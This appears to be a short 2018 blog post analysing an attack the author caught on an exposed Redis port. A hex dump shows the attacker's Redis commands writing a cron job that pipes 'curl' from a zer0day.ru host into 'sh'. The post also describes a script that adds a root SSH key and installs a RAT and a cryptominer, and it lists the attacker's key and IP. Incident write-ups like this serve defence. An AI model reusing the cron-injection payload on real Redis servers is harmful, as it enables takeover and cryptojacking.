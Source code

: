 ```yaml
---
title: "Attacks Spreading Cryptocoin Miners"
#author: "Author Name"
description: "Description of an attack against the Redis port attempting to infect a target with a cryptocoin miner"
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-06-12T00:00:00-00:00
draft: false
---
```

This morning on TCP 6379 I received an offer my computer, fortunately, refused.

```hex
2a310d0a24370d0a434f4d4d414e440d *1..$7..COMMAND.
0a2a340d0a24360d0a636f6e6669670d .*4..$6..config.
0a24330d0a7365740d0a2431300d0a64 .$3..set..$10..d
6266696c656e616d650d0a24390d0a62 bfilename..$9..b
61636b75702e64620d0a2a310d0a2434 ackup.db..*1..$4
0d0a736176650d0a2a310d0a24380d0a ..save..*1..$8..
666c757368616c6c0d0a2a330d0a2433 flushall..*3..$3
0d0a7365740d0a24370d0a74726f6a61 ..set..$7..troja
6e310d0a2436340d0a0a2a2f31202a20 n1..$64...*/1 * 
2a202a202a206375726c202d6673534c * * * curl -fsSL
20687474703a2f2f6368726f6d652e7a  http://chrome.z
6572306461792e72753a353035302f6d er0day.ru:5050/m
727831207c2073680a0d0a           rx1 | sh...
```

Forget everything you know!  Trojan time.

The download link provided a shell script, which used both yum and apt-get to install a variety of dependencies, add an authorized ssh key to root, drop external connections to port 6379 via iptables (Bold move!  Considering that's how this sucker entered...), download what is likely a Rat, and a miner, execute the rat and the miner (outputting to pool.zer0day.ru:8080), download what claims to be glibc-2.14 and try the miner again with that version of glibc, then try again to drop external connections to 6379 via iptables.

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDV1VxPVZFUOOWZwMFVBwP/904lhAZNj2U5DPsZyIWw33jHeFRElM++XnUYmkMDiu8KuJXnFDJMkyXxsq77fOpDhVGOoexll3+P6SmZWViWwnhOgvxhccgT72J+LPZEIwPqPZQVHR4ksdVSnMVreyZs+rQ7O+L2xychpqzeIrk4Q/08f5XreOnq4Rgxp9oKwSlf7vKmQ7tUWUxfMHHL1wQYZPmdKpgSi/JmokLpp5cKAT7r0gGOj1jV8ZAJc+z45Ts2JBH9JYscHBssh7MBWWymcjXANd9a6XaQnbnl6nOFFNyYm8dBuLkGpEUNCdMq/jc5YLfnAnbGVbBMhuWzaWUp root@host-10-10-10-26
```

"root@host-10-10-10-26" - cute

It looks like they backed up the Redis database before erasing it though...  This nice request came from 110.249.214.178.

